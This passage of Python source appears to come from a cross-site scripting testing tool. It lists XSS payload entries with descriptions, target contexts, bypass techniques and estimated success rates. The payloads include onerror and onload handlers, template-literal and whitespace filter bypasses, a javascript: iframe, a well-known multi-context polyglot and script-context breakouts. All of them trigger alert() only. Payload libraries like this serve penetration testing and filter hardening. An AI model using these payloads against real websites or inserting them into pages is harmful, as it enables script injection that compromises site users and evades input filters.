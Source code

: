 ```python
                success_rate=0.7,
                source="Encoding bypass"
            ),
            XSSPayload(
                payload='<img src=x onerror="alert`XSS`">',
                category=PayloadCategory.BYPASS,
                description="Template literals to bypass quote filters",
                contexts=["html_content"],
                bypass_techniques=["quote_bypass"],
                success_rate=0.65,
                source="ES6 bypass"
            ),
            XSSPayload(
                payload='<svg/onload=alert("XSS")>',
                category=PayloadCategory.BYPASS,
                description="Self-closing tag to bypass space filters",
                contexts=["html_content"],
                bypass_techniques=["whitespace_abuse"],
                success_rate=0.8,
                source="Whitespace bypass"
            ),
            XSSPayload(
                payload='<iframe src="javascript:alert`XSS`">',
                category=PayloadCategory.BYPASS,
                description="Iframe with JavaScript protocol and template literals",
                contexts=["html_content"],
                bypass_techniques=["protocol_confusion", "quote_bypass"],
                success_rate=0.55,
                source="Complex bypass"
            )
        ]
    
    def _load_polyglot_payloads(self) -> List[XSSPayload]:
        """Polyglot payloads that work in multiple contexts"""
        return [
            XSSPayload(
                payload='jaVasCript:/*-/*`/*\\`/*\'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\\x3csVg/<sVg/oNloAd=alert()//',
                category=PayloadCategory.POLYGLOT,
                description="Universal polyglot payload working in many contexts",
                contexts=["html_content", "attribute_value", "javascript_string", "url_parameter"],
                bypass_techniques=["case_variation", "comment_breaking", "encoded_chars", "mixed_quotes"],
                success_rate=0.4,
                source="PortSwigger"
            ),
            XSSPayload(
                payload='"onclick=alert() a="',
                category=PayloadCategory.POLYGLOT,
                description="Simple polyglot for attribute and HTML contexts",
                contexts=["attribute_value", "html_content"],
                bypass_techniques=["attribute_breaking"],
                success_rate=0.7,
                source="Common polyglot"
            ),
            XSSPayload(
                payload='</script><img/src="" onerror=alert()>',
                category=PayloadCategory.POLYGLOT,
                description="Script context breaking with image injection",
                contexts=["javascript_string", "html_content"],
                bypass_techniques=["context_breaking"],
                success_rate=0.6,
                source="Context breaking"
```